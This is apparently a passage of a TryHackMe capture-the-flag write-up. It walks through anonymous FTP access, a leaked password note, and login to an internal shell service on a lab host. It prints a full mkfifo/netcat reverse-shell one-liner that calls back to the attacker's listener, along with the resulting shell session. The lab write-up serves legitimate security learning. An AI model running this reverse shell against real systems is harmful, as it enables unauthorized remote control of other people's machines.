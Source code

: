   ```
  ftp 10.10.167.191        

  230 Login successful.
  Remote system type is UNIX.
  Using binary mode to transfer files.
  ftp> pwd
  Remote directory: /
  ftp> ls -al
  229 Entering Extended Passive Mode (|||10789|)
  150 Here comes the directory listing.
  drwxr-xr-x    2 ftp      ftp          4096 Apr 02  2021 .
  drwxr-xr-x    2 ftp      ftp          4096 Apr 02  2021 ..
  -rw-r--r--    1 ftp      ftp           162 Apr 02  2021 note.txt
  226 Directory send OK.
  ftp> get note.txt
  local: note.txt remote: note.txt
  229 Entering Extended Passive Mode (|||26707|)
  150 Opening BINARY mode data connection for note.txt (162 bytes).
  100% |************************************************************************|   162      117.79 KiB/s    00:00 ETA
  226 Transfer complete.
  162 bytes received in 00:00 (3.43 KiB/s)
  ftp> exit
  221 Goodbye.

  cat note.txt    
  In case I forget my password, I'm leaving a pointer to the internal shell service on the server.
  
  Connect to port 4420, the password is sardinethecat.
  - catlover
  ```

- When you connect to 4420 you will have an option to insert commands, so let's do a reverse shell.

---

## ⚙️ Shell Access

- For this one I used classic one-liner `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [YOUR-THM-IP] 4444 >/tmp/f`, start a listener before injecting the shell.

  ```
  nc 10.10.167.191 4420
  INTERNAL SHELL SERVICE
  please note: cd commands do not work at the moment, the developers are fixing it at the moment.
  do not use ctrl-c
  Please enter password:
  sardinethecat
  Password accepted
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [YOUR-THM-IP] 4444 >/tmp/f

  nc -lvnp 4444                          
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.167.191] 56208
  /bin/sh: 0: can't access tty; job control turned off
  # whoami
  /bin/sh: 1: whoami: not found
  # id
  /bin/sh: 2: id: not found
  ```
  